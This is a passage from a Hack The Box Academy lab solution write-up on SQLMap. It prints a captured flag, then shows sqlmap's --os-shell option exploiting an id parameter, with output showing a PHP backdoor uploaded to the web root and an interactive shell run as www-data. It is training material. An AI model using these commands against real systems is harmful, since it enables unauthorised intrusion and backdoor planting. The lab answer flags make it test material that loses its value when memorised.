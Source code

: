 `sqlmap` will save the flag file using a different name, thus, students need to change it accordingly when trying to print it out:

Code: shell

```shell
cat /home/htb-ac413848/.local/share/sqlmap/output/138.68.156.57/files/_var_www_html_flag.txt
```

```
┌─[us-academy-1]─[10.10.15.8]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ cat /home/htb-ac413848/.local/share/sqlmap/output/138.68.156.57/files/_var_www_html_flag.txt

HTB{5up3r_u53r5_4r3_p0w3rful!}
```

Answer: `HTB{5up3r_u53r5_4r3_p0w3rful!}`

# OS Exploitation

## Question 2

### "Use SQLMap to get an interactive OS shell on the remote host and try to find another flag within the host."

Students first need to navigate to the website's root page of the spawned target to notice that they need to exploit the `GET` parameter `id`:

![[HTB Solutions/CPTS/z. images/5d733952a3455337e2832127c652a52d_MD5.jpg]]

Thus, the `sqlmap` command becomes:

```shell
sqlmap -u 'http://STMIP:STMPO/?id=1' --os-shell --technique=E --batch
```
```
┌─[us-academy-1]─[10.10.15.8]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ sqlmap -u 'http://138.68.156.57:31020?id=1' --os-shell --technique=E --batch

        ___
       __H__
 ___ ___[']_____ ___ ___  {1.6.8#stable}
|_ -| . ["]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org
      
<SNIP>

[20:12:26] [INFO] trying to upload the file stager on '/var/www/html/' via LIMIT 'LINES TERMINATED BY' method
[20:12:26] [INFO] the file stager has been successfully uploaded on '/var/www/html/' - http://138.68.156.57:31020/tmpubgkr.php
[20:12:26] [INFO] the backdoor has been successfully uploaded on '/var/www/html/' - http://138.68.156.57:31020/tmpbanpa.php
[20:12:26] [INFO] calling OS shell. To quit type 'x' or 'q' and press ENTER
os-shell> 
os-shell> whoami
do you want to retrieve the command standard output? [Y/n/a] Y

command standard output: 'www-data'
```
